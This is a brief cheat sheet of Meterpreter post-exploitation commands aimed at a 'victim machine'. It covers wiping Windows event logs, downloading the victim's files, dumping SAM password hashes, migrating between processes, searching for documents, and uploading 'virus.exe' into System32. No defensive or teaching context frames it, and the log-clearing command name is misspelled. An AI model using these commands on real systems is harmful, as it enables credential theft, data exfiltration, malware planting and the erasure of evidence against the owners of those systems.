 1. clearrev
- Use to clear all Application, Security and System logs on a Windows system

2. download
```meterpreter
download C:\\Users\\pass.sh
```
- Download a file from remote system to local system

3. hashdump
- Dumps hashes from SAM database

4. migrate
- migrate to another process on victim machine

5. search
```
search -f *.doc
```

6. upload
```
upload virus.exe C:\\Windows\\System32
```


